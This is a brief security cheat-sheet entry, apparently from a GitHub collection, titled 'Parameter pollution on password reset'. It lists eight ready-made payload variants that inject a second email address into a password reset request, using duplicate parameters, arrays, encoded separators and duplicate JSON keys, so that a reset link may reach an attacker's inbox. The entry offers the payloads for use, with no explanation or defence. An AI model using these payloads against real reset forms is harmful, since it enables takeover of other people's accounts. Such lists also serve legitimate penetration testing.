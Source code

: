 📢Parameter pollution on password reset

email=v@g.com&email=a@g.com

email[]=v@g.com&email[]=a@g.com

email=v@g.com%20email=a@g.com

email=v@g.com|email=a@g.com

email=v@g.com,a@g.com

email=v@g.com%20a@g.com

{"email":"v@g.com","email":"a@g.com"}

{"email":["v@g.com","a@g.com"]}

![image](https://user-images.githubusercontent.com/37910997/216987477-57a5639d-3aa0-4e49-8ee7-51ffd2bfcda4.png)

